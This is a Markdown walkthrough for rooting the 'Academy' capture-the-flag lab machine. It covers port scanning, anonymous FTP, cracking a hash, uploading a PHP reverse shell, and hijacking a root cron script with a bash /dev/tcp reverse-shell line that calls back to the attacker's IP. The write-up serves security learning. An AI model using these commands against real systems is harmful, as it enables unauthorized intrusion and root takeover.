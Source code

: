 # Academy CTF – Full Walkthrough

This file contains a complete step-by-step guide to rooting the Academy CTF machine.

---

## 🔍 1. Reconnaissance

```bash
nmap -T4 -p- -A <target-ip>
```

### Open Ports:
- FTP (21)
- SSH (22)
- HTTP (80)

---

## 📂 2. FTP Enumeration

```bash
ftp <target-ip>
# Login: anonymous
```
- Found file: `note.txt`
- Contained a username and hashed password

---

## 🔓 3. Cracking the Hash

Used online tools like CrackStation to crack the password hash in `note.txt`.

---

## 🌐 4. Web Enumeration

```bash
ffuf -u http://<target-ip>/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
- Found `/academy` portal
- Logged in using cracked credentials

---

## 🐚 5. File Upload Exploitation

Uploaded a PHP reverse shell via the web interface.

On attacker's machine:
```bash
nc -nlvp 1234
```

Got shell as `www-data`.

---

## 🧠 6. Enumeration and Privilege Escalation Prep

Located `config.php` under `/var/www/html/academy/includes/`.

```bash
cat config.php
```
- Found credentials for user `grimmie`.

---

## 🔑 7. SSH Access as grimmie

```bash
ssh grimmie@<target-ip>
```

---

## 🚀 8. Privilege Escalation via backup.sh

### Step 1: Confirmed `backup.sh` is executed as root via cron
Used pspy64:

```bash
wget http://<your-ip>/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```

Saw this line:
```bash
CMD: UID=0    | /bin/bash /home/grimmie/backup.sh
```

### Step 2: Exploited it

On attacker's machine:
```bash
nc -nlvp 4444
```

On target (as grimmie):
```bash
echo '#!/bin/bash' > /home/grimmie/backup.sh
echo 'bash -c "bash -i >& /dev/tcp/(your IP ADDRESS)/4444 0>&1"' >> /home/grimmie/backup.sh
chmod +x /home/grimmie/backup.sh
```

After 1–2 minutes, received root shell.

---

## 🏁 9. Proof of Root

```bash
whoami
# root

cat /root/root.txt
```

---

> Created by Tejas Kottarshettar – CTF | VAPT | Red Team Learner
